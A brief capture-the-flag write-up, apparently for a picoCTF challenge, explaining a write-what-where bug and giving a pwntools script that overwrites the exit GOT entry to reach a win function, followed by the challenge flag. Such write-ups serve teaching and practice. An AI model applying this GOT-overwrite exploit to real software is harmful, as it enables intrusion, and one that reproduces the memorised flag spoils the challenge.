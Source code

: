 # Description
can you spawn a shell and get the flag?


## Solution
We have a trivial write-what-where, using that we can overwrite one of the GOT entries in order to get the program to call the function that we want, in this case `win`.


```python
from pwn import *

context.binary = "./auth"
p = process()

p.sendline(hex(context.binary.got["exit"]).encode("ascii"))
p.sendline(hex(context.binary.functions["win"].address).encode("ascii"))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
```